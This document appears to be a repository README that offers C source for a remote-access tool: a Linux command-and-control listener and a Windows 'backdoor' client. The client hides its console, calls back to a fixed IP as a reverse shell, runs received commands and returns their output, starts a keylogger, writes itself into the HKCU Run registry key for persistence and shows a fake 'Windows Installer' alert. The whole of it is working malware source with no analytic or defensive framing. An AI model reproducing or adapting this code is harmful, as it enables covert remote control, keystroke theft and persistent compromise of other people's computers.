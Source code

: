 # source-code

------SERVER CODE-------
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>


int main()
{
	int sock, client_socket;
	char buffer[1024];
	char response[18384];
	struct sockaddr_in server_address, client_address;
	int i=0;
	int optval = 1;
	socklen_t client_length;

	sock = socket(AF_INET, SOCK_STREAM, 0);

	if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval)) < 0) {
		printf("Error Setting TCP Socket Options!\n");
		return 1;
	}

	server_address.sin_family = AF_INET;
	server_address.sin_addr.s_addr = inet_addr("192.168.1.6");
	server_address.sin_port = htons(50005);

	bind(sock, (struct sockaddr *) &server_address, sizeof(server_address));
	listen(sock, 5);
	client_length = sizeof(client_address);
	client_socket = accept(sock, (struct sockaddr *) &client_address, &client_length);

	while(1)
	{
		jump:
		bzero(&buffer, sizeof(buffer));
		bzero(&response, sizeof(response));
		printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
		fgets(buffer, sizeof(buffer), stdin);
		strtok(buffer, "\n");
		write(client_socket, buffer, sizeof(buffer));
		if (strncmp("q", buffer, 1) == 0) {
			break;
		}
		else if (strncmp("cd ", buffer, 3) == 0) {
			goto jump;
		}
		else if (strncmp("keylog_start", buffer, 12) == 0) {
			goto jump;
		}
		else if (strncmp("persist", buffer, 7) == 0) {
			recv(client_socket, response, sizeof(response), 0);
			printf("%s", response);
		}
		else {
			recv(client_socket, response, sizeof(response), MSG_WAITALL);
			printf("%s", response);
		}

	}

}
-------BACKDOOR CODE-------------------

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>
#include "keylogger.h"

#define bzero(p, size) (void) memset((p), 0, (size))

int sock;


int bootRun()
{
	char err[128] = "Failed\n";
	char suc[128] = "Created Persistence At : HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\n";
	TCHAR szPath[MAX_PATH];
	DWORD pathLen = 0;

	pathLen = GetModuleFileName(NULL, szPath, MAX_PATH);
	if (pathLen == 0) {
		send(sock, err, sizeof(err), 0);
		return -1;
	}

	HKEY NewVal;

	if (RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run"), &NewVal) != ERROR_SUCCESS) {
		send(sock, err, sizeof(err), 0);
		return -1;
	}
	DWORD pathLenInBytes = pathLen * sizeof(*szPath);
	if (RegSetValueEx(NewVal, TEXT("Hacked"), 0, REG_SZ, (LPBYTE)szPath, pathLenInBytes) != ERROR_SUCCESS) {
		RegCloseKey(NewVal);
		send(sock, err, sizeof(err), 0);
		return -1;
	}
	RegCloseKey(NewVal);
	send(sock, suc, sizeof(suc), 0);
	return 0;
}


char *
str_cut(char str[], int slice_from, int slice_to)
{
        if (str[0] == '\0')
                return NULL;

        char *buffer;
        size_t str_len, buffer_len;

        if (slice_to < 0 && slice_from > slice_to) {
                str_len = strlen(str);
                if (abs(slice_to) > str_len - 1)
                        return NULL;

                if (abs(slice_from) > str_len)
                        slice_from = (-1) * str_len;

                buffer_len = slice_to - slice_from;
                str += (str_len + slice_from);

        } else if (slice_from >= 0 && slice_to > slice_from) {
                str_len = strlen(str);

                if (slice_from > str_len - 1)
                        return NULL;
                buffer_len = slice_to - slice_from;
                str += slice_from;

        } else
                return NULL;

        buffer = calloc(buffer_len, sizeof(char));
        strncpy(buffer, str, buffer_len);
        return buffer;
}

void Shell() {
	char buffer[1024];
	char container[1024];
	char total_response[18384];


	while (1) {
		jump:
		bzero(buffer,1024);
		bzero(container, sizeof(container));
		bzero(total_response, sizeof(total_response));
		recv(sock, buffer, 1024, 0);

		if (strncmp("q", buffer, 1) == 0) {
			closesocket(sock);
			WSACleanup();
			exit(0);
		}
		else if (strncmp("cd ", buffer, 3) == 0) {
			chdir(str_cut(buffer,3,100));
		}
		else if (strncmp("persist", buffer, 7) == 0) {
			bootRun();
		}
		else if (strncmp("keylog_start", buffer, 12) == 0) {
			HANDLE thread = CreateThread(NULL, 0,logg, NULL, 0, NULL);
			goto jump;
		}
		else {
			FILE *fp;
			fp = _popen(buffer, "r");
			while(fgets(container,1024,fp) != NULL) {
				strcat(total_response, container);
			}
			send(sock, total_response, sizeof(total_response), 0);
			fclose(fp);
		}

	}

}


int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow){

	HWND stealth;
	AllocConsole();
	stealth = FindWindowA("ConsoleWindowClass", NULL);

	ShowWindow(stealth, 0);

	struct sockaddr_in ServAddr;
	unsigned short ServPort;
	char *ServIP;
	WSADATA wsaData;

	ServIP = "192.168.1.6";
	ServPort = 50005;

	if (WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
		exit(1);
	}

	sock = socket(AF_INET, SOCK_STREAM, 0);

	memset(&ServAddr, 0, sizeof(ServAddr));
	ServAddr.sin_family = AF_INET;
	ServAddr.sin_addr.s_addr = inet_addr(ServIP);
	ServAddr.sin_port = htons(ServPort);


	start:
	while (connect(sock, (struct sockaddr *) &ServAddr, sizeof(ServAddr)) != 0)
	{
		Sleep(10);
		goto start;
	}
	MessageBox(NULL, TEXT("Your Device Has Been Hacked!!!"), TEXT("Windows Installer"), MB_OK | MB_ICONERROR);
	Shell();
}
